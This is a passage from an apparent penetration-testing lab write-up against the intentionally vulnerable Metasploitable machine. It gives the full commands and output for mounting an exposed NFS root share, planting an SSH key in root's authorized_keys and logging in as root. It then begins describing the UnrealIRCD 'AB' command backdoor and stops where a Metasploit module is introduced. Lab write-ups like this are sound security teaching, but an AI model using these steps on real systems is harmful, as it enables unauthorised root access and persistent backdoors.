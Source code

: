 <p>Based on nmap result we found that `SSH` service was running on port `22`, So we started to generate a new SSH key on our attacking system,
Later we created a new directory for mounting to the NFS export and add our key to the root user account's authorized_keys file.<p/>
``` ruby SSH keygen
root@Hacker:~# ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
/root/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
9d:69:ed:f6:c8:fd:55:e7:e6:de:9b:d8:18:b3:48:18 root@Hacker
The key's randomart image is:
+--[ RSA 2048]----+
|                 |
|                 |
|                 |
|         . +     |
|        SE= .   o|
|         .o.   .o|
|         . .oo  +|
|          .o.+Bo+|
|           .o+o**|
+-----------------+
--->create a directory anywere for mounting purpose

root@Hacker:~# mkdir /tmp/dsm
root@Hacker:~# mount -t nfs 192.168.2.7:/ /tmp/dsm/ -o nolock

--->copying our ssh to the remote root folder through mount share
root@Hacker:~# cat ~/.ssh/id_rsa.pub >> /tmp/dsm/root/.ssh/authorized_keys

---> Finally Do the ssh
root@Hacker:~# ssh root@192.168.2.7
Last login: Sun Aug 24 22:33:44 2014 from :0.0
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@metasploitable:~# id;uname -a;
uid=0(root) gid=0(root) groups=0(root)
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
root@metasploitable:~# 

```
##Backdoors
#### UnrealIRCD Backdoor
<p>The remote machine was running a UnreaIRCD IRC daemon. Later we found that this version contains a backdoor that can be triggered 
by sending the letters "AB" following by a system command to the server on any listening port.<p/> 
<p>Metasploit has a module to exploit this in order to gain an interactive shell, as shown below.<p/>